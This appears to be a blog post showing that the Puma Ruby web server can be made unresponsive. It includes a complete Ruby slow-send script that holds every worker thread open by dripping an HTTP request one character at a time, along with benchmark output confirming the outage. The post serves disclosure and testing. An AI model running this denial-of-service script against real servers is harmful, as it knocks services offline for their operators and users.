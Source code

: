 ```yaml
---
title: Puma and the light
categories: [programming, ruby, lol]
layout: post
---
```


Today after I finished wrapping up [barlume](https://github.com/meh/barlume) I started
thinking about the next steps.

At first I thought about writing a reactor with it and adding a compatibility layer to
make it work like [EventMachine](https://github.com/eventmachine/eventmachine) (and it
will be done), but then I thought about Puma.

[Puma](http://puma.io/) is a very awesome Ruby web server, I really like what it tries to
achieve and by reading the homepage it seems really performant.

So I started digging around the source to see where I could improve its performances and
after seeing the orror of `IO.select` usage (which isn't that bad for how they use it) I
noticed how it handled connections and requests.

{% highlight ruby %}
@thread_pool = ThreadPool.new(@min_threads, @max_threads) do |client, env|
  process_client(client, env)
end
{% endhighlight %}

When it starts it creates a `ThreadPool`, the default minimum is **0** the default maximum is **16**,
after reading more of it, specifically that `process_client` function I realized something else:
it can only handle *maximum threads* clients at a time.

What are the consequences of this sad realization? The consequences are that this simple script
makes *puma* completely unresponsive:

{% highlight ruby %}
#! /usr/bin/env ruby
# encoding: utf-8
require 'socket'
require 'barlume'
require 'optparse'

options = {}

OptionParser.new do |o|
  options[:host]    = 'localhost'
  options[:port]    = 9292
  options[:threads] = 16
  options[:content] = "GET / HTTP/1.1\r\nHost: localhost\r\n\r\n"
  options[:sleep]    = 1

  o.on '-h', '--host host', 'the host of the server' do |value|
    options[:host] = value
  end

  o.on '-p', '--port port', Integer, 'the port of the server' do |value|
    options[:port] = value
  end

  o.on '-t', '--threads [MAX_THREADS]', Integer,
       'the max amount of threads on the server' do |value|
    options[:threads] = value
  end

  o.on '-c', '--content CONTENT', 'the string to send' do |value|
    options[:content] = value
  end

  o.on '-s', '--sleep SECONDS', Float,
       'the time to sleep before sending every character' do |value|
    options[:sleep] = value
  end
end.parse!

class Slowpoke < Barlume::Lucciola
  def initialize (socket, message)
    super(socket)

    @message = message
    @offset  = 0
  end

  def send_next
    return if done?

    write_nonblock @message[@offset]

    @offset += 1
  rescue Errno::EAGAIN, Errno::EWOULDBLOCK
  end

  def done?
    @offset >= @message.length
  end
end

lantern = Barlume::Lanterna.best

options[:threads].times {
  lantern << Slowpoke.new(TCPSocket.new(
    options[:host], options[:port]), options[:content])
}

puts "oh noes, a wall on my path D:"

until lantern.all?(&:done?)
  lantern.writable.each {|s|
    s.send_next
  }

  sleep options[:sleep]
end

puts "oh, there's a door ( ･ ◡◡･)"
{% endhighlight %}

I ran that script on a simple *sinatra* application and prepared to run `ab` to see
how it handled everything, this was the result:

{% highlight text %}
Benchmarking 127.0.0.1 (be patient)...apr_poll: The timeout specified has expired (70007)
{% endhighlight %}

It **dies**.

When the slowpokes are done everything restarts working properly.

So, what's next about all of this? I'll try to write a patch to make it use barlume
and keep it as concurrent as before.

In the meantime I'd suggest to not use it in production or at least with other external
measures to avoid that kind of attack.
